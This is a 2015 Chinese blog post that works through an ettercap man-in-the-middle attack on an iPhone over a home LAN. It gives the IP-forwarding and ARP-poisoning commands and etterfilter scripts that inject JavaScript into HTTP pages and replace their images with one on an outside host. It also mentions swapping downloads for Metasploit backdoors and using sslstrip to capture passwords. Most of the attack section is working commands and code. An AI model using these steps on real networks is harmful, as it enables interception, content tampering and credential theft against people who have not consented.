 ```yaml
---
layout:     post
title:      ettercap使用小结
date:       2015-11-12 11:40:25
author:     Hsmouc
summary:    用ettercap工具进行ARP毒化和中间人攻击，注入脚本。    
categories: Hacking
thumbnail:  heart
tags:
 - 欢迎来我的博客
---
```

###ettercap简介：
ettercap是一个进行中间人攻击的全面工具套装，它可以嗅探数据和玩一些其他有意思的把戏…… 我从官网介绍上随意翻译的=_=
###一次中间人攻击实例
- 工具： Ettercap Wireshark 
- 攻击者：Mac OS X 10.10.5
- 目标：iPhone （iOS 9.1）
####step1
打开内核ip转发功能，否则会导致被攻击的对象无法上网。在终端里输入
{% highlight c %}
sudo sysctl net.inet.ip.forwarding=1
{% endhighlight %}
终端提示
{% highlight c %}
net.inet.ip.forwarding: 0 -> 1
{% endhighlight %}
这样就可以开始进行ARP毒化和中间人攻击了。(注意：这是Mac OS X系统的命令，Linux系统请自行Google)
####step2
- #####嗅探   
ettercap提供了四种用户界面
{% highlight c %}
Text Only – ‘-T’ option
Curses – ‘-C’ option
GTK – ‘-G’ option
Daemon – ‘-D’ option
{% endhighlight %}
我使用的是命令行模式，感觉它UI做的好丑。    
下面是ARP毒化的指令
{% highlight c %}
sudo ettercap -T -q -i en0 -M ARP:remote /192.168.1.4/ /192.168.1.1/
{% endhighlight %}
T参数是Text Only，q参数是安静模式，M参数表示MITM即中间人攻击。192.168.1.4是iPhone的ip地址，192.168.1.1是路由的ip地址。  
  使用该命令后，攻击开始，按q键结束。同时打开Wireshark即可看到目标访问的所有http链接的明文内容。如下图所示：![](http://ww1.sinaimg.cn/mw690/005WMcFzgw1exyg0unp7oj311t0np479.jpg)
- #####使用插件      
在ettercap可以使用自己编写的插件来实现一些功能，当然ettercap也提供了一些插件。在/usr/local/bin/目录下用vim新建.filter文件。   
我们先尝试注入代码让目标浏览网页时弹窗，代码如下：
{% highlight c %}
if (ip.proto == TCP && tcp.dst == 80)
{
    if (search(DATA.data, "Accept-Encoding"))
    {
        replace("Accept-Encoding", "Accept-Rubbish!");
        # note: replacement string is same length as original string
        msg("zapped Accept-Encoding!\n");
    }
}
if (ip.proto == TCP && tcp.src == 80)
{
    replace("<head>", "<head><script type="text/javascript">alert('test');</script>");
    replace("<HEAD>", "<HEAD><script type="text/javascript">alert('test');</script>");
    msg("Injecting OK!!\n");
}
{% endhighlight %}
接着在终端中输入：
{% highlight c %}
etterfilter window.filter -o windowtest3.ef
{% endhighlight %}
简单解释下，可以输入etterfilter -h来获得帮助，o参数是输出文件名。   
效果如下图所示：
![](http://ww1.sinaimg.cn/mw690/005WMcFzgw1exyg212emhj30hs0vkah0.jpg)
再尝试下替换网页的图片试试，还是和上面一样直接上源码；
{% highlight c %}
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!");
      msg("zapped Accept-Encoding!\n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("img src=", "img src=\"http://img5.duitang.com/uploads/item/201507/22/20150722212458_YrGtd.jpeg\" ");
   replace("IMG SRC=", "img src=\"http://img5.duitang.com/uploads/item/201507/22/20150722212458_YrGtd.jpeg\" ");
   msg("Filter Ran.\n");
}
{% endhighlight %}
我找了个小埋的图片233，看看效果；
![](http://ww4.sinaimg.cn/mw690/005WMcFzgw1exyg1u3hdsj30hs0vktdi.jpg)
![](http://ww3.sinaimg.cn/mw690/005WMcFzgw1exyg1or9cbj30hs0vk13q.jpg)
![](http://ww2.sinaimg.cn/mw690/005WMcFzgw1exyg10kyknj30hs0vkdv6.jpg)
还可以通过插件来替换对方的下载内容，配合Metasploit生成后门甚至可以完全控制目标计算机。我还没测试过是否能用……
###小结
中间人攻击和中间人毒化利用了ARP(地址解析协议)的固有漏洞，操作简单但是危害极大，原来我一直是主张计算机裸奔党，从来不用杀软。然而对于小白来说，喜欢乱点的同学们，你们真的需要杀毒软件来保护你们的电脑不被入侵。杀毒软件弹个窗请看清楚再关……    
对了，突然想起来https协议就算是用ettercap＋Wireshark也是看不到传输内容的，但是通过sslstrip就可以突破ssl获取密码了，以后有时间再进行测试吧，今天就写到这里。